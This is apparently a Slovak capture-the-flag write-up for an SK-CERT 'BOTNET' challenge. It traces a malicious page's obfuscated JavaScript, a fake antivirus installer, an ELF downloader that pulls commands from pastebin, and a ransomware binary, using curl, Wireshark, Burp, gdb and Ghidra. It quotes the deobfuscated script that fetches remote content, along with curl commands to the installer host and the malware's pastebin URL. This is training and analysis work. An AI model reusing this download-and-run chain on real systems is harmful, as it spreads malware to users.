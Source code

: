 # SK-CERT - BOTNET
> Dostali sme hlásenie že na stránke ventilsro.github.io vyskakuje podozrivé okno. Mohli by ste to skontrolovať? <br/>
Reported Difficulty: 2

:exclamation: *Súbory a zadania z tejto súťaže môžete stiahnuť z https://ulozto.net/file/9qLDe5asaCHJ/*

## 1 Záhadné okno
> Nietorý použivatelia nám občas nahlásia vyskakovacie okno v strede obrazovky, je potrebné túto aktivitu preveriť.

> Body: 3

<details>
<summary>Zobraziť riešenie</summary>

Pozrieme sa na https://ventilsro.github.io/, zvyčajne prvý flag býva v page source, ale v tomto prípade nič tam nie je. Zaujímavé ale vyzerá ten javascript:

![](images/2022-03-05-14-24-18.png)

Pozrieme sa naň a máme prvý flag:

![](images/2022-03-05-14-24-31.png)

```
flag: SK-CERT{c4n_y0u_f1nd_17}
```
</details>

## 2 Takže pre toto!
> Keď už vieme ako funguje javascript, Musíme zistiť či náhodou neobsahuje niečo škodlivé.

> Body: 6

<details>
<summary>Zobraziť riešenie</summary>

Ten java script vyzerá podozrivo, pravdepodobne bol použitý nejaký obfuscator, skúsime hľadať online, napríklad tento: http://www.addressmunger.com/javascript_obfuscator/index.php
Vložíme tam náš javascript, dva krát dáme decode a máme šťastie že, Arci-Zločan použil default obfuscator.

![](images/2022-03-05-14-27-58.png)

Je aj iná cesta, brute-force debug, lebo keby Arci-Zločan použil nejaký svoj obfuscator tak by sme nemali také šťastie. Na brute-force stačí použiť Chrome dev tools, dát tam nejaký break point a skúšať čo sa udeje:

![](images/2022-03-05-14-28-19.png)

Po niekoľkých pokusoch sme odhalili náš skutočný javascript:

![](images/2022-03-05-14-28-29.png)

Javascript: 
```
function process(text){document.getElementById("data_from_int").innerHTML=text}var ad=0;if(navigator.appVersion.indexOf("Linux")){ad=Math.floor(Math.random()*50+1)}else{ad=Math.floor(Math.random()*50+51)}fetch('https://int3.sk/reklama'+ad+'.txt').then(response=>response.text()).then(text=>process(text))
```

Síce žiadny tam flag nie je, ale z kódu vidíme, že sa reklama ťahá z `'https://int3.sk/reklama'+ad+'.txt'`, kde `ad` je náhodne číslo medzi `1` a `101`, tak skúsme...Zdá sa, že Arci-Zločan chce aby sme skúsili 100 rôznych adries či sa v niektorej neukrýva ďalší flag… skúsime našu vernú zbraň: `curl https://int3.sk/reklama[1-100].txt` a máme ďalší flag:

![](images/2022-03-05-14-31-18.png)

```
flag: SK-CERT{l3g17_4nt1v1ru5}
```
</details>

## 3 Antivirus 3000
> Reklama, a ponúka stiahnutie antivírusu? Podozrivé! Je potrebné zistiť čo reálne stahujeme.

> Body: 3

<details>
<summary>Zobraziť riešenie</summary>

Z predchádzajúceho kroku vidíme, že reklama číslo 43 okrem flagu, ukrýva aj odkaz na nejaký shell script, tak sa poďme na to pozrieť: `curl http://194.182.66.53/antivirus3000_installer.sh` a máme hneď ďalší flag:  

![](images/2022-03-05-14-34-56.png)

```
flag: SK-CERT{1n574l_17_4lr34dy}
```
</details>

## 4 Elf
> Dostali sme ďalšie hlásenie že niekoľko použivatelov tejto stránky malo poškodený počítač, je potrebné vyšetrovať ďalej

> Body: 6

<details>
<summary>Zobraziť riešenie</summary>

Z predchádzajúcej úlohy vidíme, že shell script niečo stiahne z `https://rentry.co/vpvqs/raw` a uloží to ako súbor `antivirus3000`. Sťahujeme ten súbor a zisťujeme, že je to štandardná Linuxová binárka. 
```
$ file antivirus3000 
antivirus3000: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=b428836a750d2fd0a3bfccf09080250e5372b0fe, for GNU/Linux 3.2.0, not stripped
```
Po spustení binárky žiadny output ale cez Wireshark vidíme, že komunikuje s `pastebin.com`, tak pustime Burp a skúsime zachytiť tú požiadavku. 

![](images/2022-04-19-11-11-32.png)

*Keďže je to https komunikácia, museli sme pridať Burp certifikát do trusted root certificate store.*

Tu vidíme Request a Response:

![](images/2022-04-19-11-12-59.png)

Stiahneme si ten `runner.tar` a vidíme tam `flag.txt`.. ktorý ale nie je pre tuto úlohu, asi bude pre jednu z ďalších.

Púšťame sa do študovania forenznej analýzy `ELF`. `Strings` nám nezistil žiadny flag, jedine že je binárka používa `curl`, čo znamená, že asi otvára nejaké sieťové spojenie niekam.
Skúšame `strace -o trace.out ./antivirus3000` ani to nám nič nehovorí.

Ďalšie hodiny som strávil s debugovaním binárky, stepovaním inštrukcií cez gdb a Ghidra, aj keď v tom moc skúsenosti nemám.
Zaujal ma kód v ktorom sa generuje url pre curl: 
```
curl_easy_setopt(local_18,0x2712,local_268);
```

![](images/2022-04-19-14-24-14.png)

Snažil som sa nejak zistiť čo obsahuje `local_286` a po hodinách `ni`, `si`, `print $rdi` a podobných vecí, ktoré len tak-tak tuším čo znamenajú sa mi podarilo dostepovať pred call tej funkcie, kde som si pozrel obsah pamäte na `[RBP + -0x260]`

![](images/2022-04-19-14-29-03.png)

a zobrazením obsahu pamäte som získal známy string, ktorý bol akceptovaný!

![](images/2022-04-19-14-31-07.png)

```
flag: SK-CERT{p45t3b1n_15_hug3}
```

P.S. mohol som toto vyriešiť aj skôr, keby som si uvedomil, že 
```
5555555555a5 88 94 05        MOV        byte ptr [RBP + RAX*0x1 + -0x260],DL
             a0 fd ff ff

```
je to vlastne adresa pre `local_268[int(conter)]`, nie pre cely string `local_268`. Ja som sledoval obsah pamäti pomocou `x/s $rbp+$rax*0x1-0x260` a neuvedomil som si, že pozerám iba posledný byte:

```
 (gdb)x/s $rbp+$rax*0x1-0x260
0x7fffffffdcbb: "4"
 (gdb)x/s $rbp-0x260
0x7fffffffdc90: "https://pastebin.com/raw/9gQzJk4j#SK-CERT{p4"
```
</details>

## 5 Vykonané príkazy
> Zistili ste, že program spúšťa príkazy z pastebin. Teraz treba zistiť aké konkrétne.

> Body: 3

<details>
<summary>Zobraziť riešenie</summary>

Tu som použil flag, ktorý som získal na začiatku predchádzajúcej úlohy, kde som odchytil komunikáciu s pastebin a stiahol `runner.tar`, ktorý obsahoval `flag.txt`

```
flag: SK-CERT{4n0th3r_f1lthy_3lf}
```
</details>

## 6 Ďalšia binárka
> Ďalší binárny súbor? Pustite sa do analýzy

> Body: 6

<details>
<summary>Zobraziť riešenie</summary>

Po spustení `./runner` sa nič nedeje... niet divu. Otvárame `runner` v Ghidre a pozeráme `main` funkciu:

![](images/2022-04-19-16-07-10.png)

Podlá analýzy main, kód otvára aktuálny adresár, a ak sa tam nachádza adresár menom "dRIA2HpoQrC24jEoww4m" tak ho zašifruje. 
Vyskúšame vytvoriť adresár `dRIA2HpoQrC24jEoww4m` a spustiť `./runner`:

![](images/2022-04-19-16-18-31.png)

Takže, takto sa dostaneme ďalej do `encrypt_file` funkcie, ktorá podlá analýzy nerobí nič zaujímavé sama o sebe, otvára adresár, číta meno adresára a vola ďalšiu funkciu `encrypt`, ktorá už vyzerá zaujímavo, najmä `for` loop ktorý vyzerá podozrivo, ako z predošlých úloh kde sa generuje flag:

![](images/2022-04-19-16-27-23.png)

Skúšame krokovať cez `gdb`, nastavíme break point najprv na `main`, potom na `encrypt_file` a nakoniec sa dostaneme do `encrypt` a krokujeme do toho `for` loopu, a tento krát využijeme príkaz na vykonanie viac krokov naraz:

````
python [gdb.execute('ni') for x in range(12)]
````
Po niekoľkých opakovaní úspešne získavame ďalší flag:

![](images/2022-04-19-16-09-26.png)

```
flag: SK-CERT{th3_k3y}
```
</details>

## 7 Dekryptor
> Z analýzy sme zistili že sa jedná o ransomvér a klúč je pevne zakódovaný v zdrojovom kóde. Je potrebné napísať dekryptor a dekryptovať následovné súbory: https://drive.google.com/file/d/1Iv_Bl3yI8Pncd5iq3xaGdqnaScVwTO3Q/view?usp=sharing

> Body: 6

Tak toto už si netrúfam...možno nabudúce.

